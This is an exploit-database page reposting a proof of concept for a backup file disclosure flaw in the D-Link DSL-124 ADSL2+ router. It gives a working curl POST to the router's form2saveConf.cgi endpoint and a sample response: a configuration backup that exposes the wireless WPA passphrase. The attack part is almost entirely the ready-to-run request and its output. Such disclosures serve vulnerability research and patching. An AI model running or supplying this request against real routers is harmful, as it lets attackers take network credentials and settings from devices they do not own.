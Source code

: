 ```yaml
---
title: DSL-124 Wireless N300 ADSL2+ - Backup File Disclosure Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38373&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-30
fetch_date: 2025-10-04T11:06:13.208523
---
```


# DSL-124 Wireless N300 ADSL2+ - Backup File Disclosure Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for DSL-124 Wireless N300 ADSL2+ - Backup File Disclosure Vulnerability

2023-03-29 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38373
# Exploit Title: DSL-124 Wireless N300 ADSL2+ - Backup File Disclosure
# Exploit Author: Aryan Chehreghani
# Vendor Homepage: https://www.dlink.com
# Software Link: https://dlinkmea.com/index.php/product/details?det=dU1iNFc4cWRsdUpjWEpETFlSeFlZdz09
# Firmware Version: ME_1.00
# Tested on: Windows 11

# [ Details - DSL-124 ]:
#The DSL-124 Wireless N300 ADSL2+ Modem Router is a versatile, high-performance router for a home or small office,
#With integrated ADSL2/2+, supporting download speeds up to 24 Mbps, firewall protection,
#Quality of Service (QoS),802.11n wireless LAN, and four Ethernet switch ports,
#the Wireless N300 ADSL2+ Modem Router provides all the functions that a user needs to establish a secure and high-speed link to the Internet.

# [ Description ]:
#After the administrator enters and a new session is created, the attacker sends a request using the post method in her system,
#and in response to sending this request, she receives a complete backup of the router settings,
#In fact this happens because of the lack of management of users and sessions in the network.

# [ POC ]:

Request :

curl -d "submit.htm?saveconf.htm=Back+Settings" -X POST http://192.168.1.1/form2saveConf.cgi

Response :

HTTP/1.1 200 OK
Connection: close
Server: Virtual Web 0.9
Content-Type: application/octet-stream;
Content-Disposition: attachment;filename="config.img"
Pragma: no-cache
Cache-Control: no-cache

<Config_Information_File_8671>
<V N="WLAN_WPA_PSK" V="pass@12345"/>
<V N="WLAN_WPA_PSK_FORMAT" V="0x0"/>
<V N="WLAN_WPA_REKEY_TIME" V=""/>
<V N="WLAN_ENABLE_1X" V="0x0"/>
<V N="WLAN_ENABLE_MAC_AUTH" V="0x0"/>
<V N="WLAN_RS_IP" V="0.0.0.0"/>
.
.
.
</Config_Information_File_8671>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)